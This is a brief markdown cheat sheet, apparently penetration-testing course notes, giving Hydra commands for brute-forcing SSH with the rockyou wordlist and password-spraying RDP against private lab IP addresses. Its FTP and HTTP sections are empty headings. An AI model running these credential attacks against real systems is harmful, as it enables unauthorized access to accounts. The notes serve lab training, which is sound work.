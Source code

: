 
# SSH
```
sudo hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```


# RDP
```
sudo hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```


# FTP


# HTTP GET


# HTTP POST

